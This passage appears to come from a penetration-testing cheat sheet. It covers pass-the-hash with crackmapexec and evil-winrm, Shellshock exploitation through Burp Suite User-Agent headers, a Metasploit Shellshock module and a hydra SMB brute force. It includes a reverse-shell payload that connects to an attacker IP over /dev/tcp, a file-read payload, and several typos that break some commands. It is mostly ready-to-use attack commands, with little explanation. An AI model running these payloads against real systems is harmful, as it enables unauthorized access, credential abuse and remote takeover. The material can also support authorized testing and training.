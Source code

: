 > Via these commands if everything goes smoothly you'll have a successful pass-the-hash attack.

```Shell
crackmapexec smb <ip-address> -u Administrator -H "<NTLM-HASH>" -x "any-command"
```

> Pass-the-hash attack using `crackmapexec`.

```Shell
ruby evil-winrm.rb -i 10.0.0.20 -u user -H <NTLM-HASH>
```

> `evil-winrm.rb` tool can be used to perform the same function.

#### Linux Exploitation:

#### Shell Shock:

```Shell
nmap -sV <ip-address> --script=http-shellshock --sctipt-args "http-shellshock.uri=/gettime.cgi"
```

> A shell shock vulnerability script.

***TO EXPLOIT IT VIA BRUP SUITE WE HAVE TO PASS COMMANDS IN THE  USER AGENT HEADER AS SHOWN BELOW***

> First send it to the repeater and then change the header in the repeater tab. 

```HTTP
User Agent: () { :; }; echo; echo; /bin/bash -c '<command>'
User Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/password' 
```

***FOLLOWING IS THE METHOD TO GAIN A REVERSE SHELL FROM BURP SUITE***

```Shell
nc -nvlp 1234
```

> First turn on the net cat on listening mod on port 1234.

```http
User Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/<host-ip-addresss>/1234 0>&1'
User Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/192.24.241.2/1234 0>&1'
```

> This header upon running will give a reverse shell on the system.

```msfconsole
use exploit/multi/http/apache_mod_cgi_bach_env_exec
show options
set RHOST <ip-address>
set TARGETURI /gettime.cgi
exploit
```

> Module for exploitation the shellshock vulnerability. 

#### SAMBA Commands:

```Shell
hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <ip-address> smb
```
